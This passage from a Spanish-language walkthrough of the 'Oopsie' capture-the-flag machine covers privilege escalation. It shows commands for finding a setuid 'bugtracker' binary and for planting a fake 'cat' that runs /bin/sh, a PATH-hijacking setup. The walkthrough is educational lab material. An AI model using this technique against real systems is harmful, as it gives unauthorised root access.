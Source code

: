 Intento ver si hay algún binario dentro ese grupo.

```bash
robert@oopsie:~$ find / -group bugtracker 2>/dev/null
find / -group bugtracker 2>/dev/null
/usr/bin/bugtracker
```

Compruebo qué privilegios y qué tipo de archivo es:
```bash
robert@oopsie:~$ ls -la /usr/bin/bugtracker && file /usr/bin/bugtracker
ls -la /usr/bin/bugtracker && file /usr/bin/bugtracker
-rwsr-xr-- 1 root bugtracker 8792 Jan 25  2020 /usr/bin/bugtracker
/usr/bin/bugtracker: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 3.2.0, BuildID[sha1]=b87543421344c400a95cbbe34bbc885698b52b8d, not stripped
```


Hay un SUID en ese binario. SUID o también llamado Setuid son permisos de acceso que pueden asignarse a archivos o directorio en un OS basado en Unix. Se utilizan principalmente para permitrir a los usuarios del sistema ejecutar binarios con privilegios elevados temporalmente para realizar una tarea específica.

Vamos a runnear este bin a ver que hace.
```bash
robert@oopsie:~$ /usr/bin/bugtracker
/usr/bin/bugtracker

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: 59
59
---------------

cat: /root/reports/59: No such file or directory
```

La herramienta acepta entradas del usuario como nombre del archivo que se leerá usando el comando cat; sin embargo, no apunta a la ruta absoluta el archivo cat y por lo tanto podríamos aprovechar esto. Esto es lo que se llama un PATH Hijacking.

Navegaremos al directorio /tmp y crearemos un archivo llamado cat con el siguiente conteni-do: “/bin/sh” y le daremos privilegios.

```bash
robert@oopsie:/$ cd /tmp
cd /tmp
robert@oopsie:/tmp$ echo "/bin/sh" > cat
echo "/bin/sh" > cat
robert@oopsie:/tmp$ chmod +x cat
chmod +x cat
robert@oopsie:/tmp$ ls -l
ls -l
total 4
-rwxrwxr-x 1 robert robert 8 Mar 17 19:51 cat



```
